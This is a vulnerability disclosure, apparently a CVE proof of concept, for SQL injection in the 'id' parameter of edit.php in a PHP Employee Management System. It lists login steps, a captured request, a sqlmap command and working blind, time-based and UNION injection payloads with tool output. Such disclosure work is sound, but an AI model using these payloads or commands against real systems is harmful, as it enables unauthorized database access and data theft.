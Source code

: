 # Employee Managment System - SQL Injection - 3
+ **Exploit Title:** Employee Managment System - SQL Injection - 3
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:


## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Login with `admin` : `admin`
+ Press the View Employee tab, select any employee and press the edit button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /370project//edit.php?id=111 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=111 AND 5433=(SELECT (CASE WHEN (5433=5433) THEN 5433 ELSE (SELECT 8839 UNION SELECT 6713) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=111 AND (SELECT 5430 FROM (SELECT(SLEEP(5)))gMEp)

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: id=111 UNION ALL SELECT NULL,NULL,CONCAT(0x7162767171,0x486e6e5062594f43517643496c5574527374646b4d504958686b4175715a4d4f6b7a79514f556251,0x716b707071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[05:05:06] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[05:05:06] [INFO] fetching current database
current database: '370project'
```
+ current database: `370project`

![Ekran görüntüsü 2024-01-30 133927](https://github.com/BurakSevben/CVEs/assets/117217689/54e859bf-9a86-4977-a759-2d3fa6b77c2b)
